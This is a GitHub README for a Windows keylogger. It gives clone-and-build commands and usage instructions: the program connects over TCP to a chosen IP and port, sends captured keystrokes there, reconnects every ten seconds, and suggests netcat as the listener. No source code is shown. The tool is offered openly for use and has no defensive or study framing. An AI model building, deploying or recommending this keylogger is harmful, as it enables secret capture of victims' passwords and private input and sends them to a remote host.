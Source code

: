 # Simple KeyLogger for Windows (without windows hooks)

## Build
```bash
git clone https://github.com/x0152/KeyLogger
cd KeyLogger
mkdir build
cd build
cmake .. -G "MinGW Makefiles"
make
```

## Usage
```bash
KeyLogger <ip> <port>
```
Program will establish tcp connection to ip on specified port. You can use netcat for testing. (example: nc -l 8030)
If the connection is lost then programm will try reconnect each 10 seconds.

## Exapmple output
<img src = "output.png">
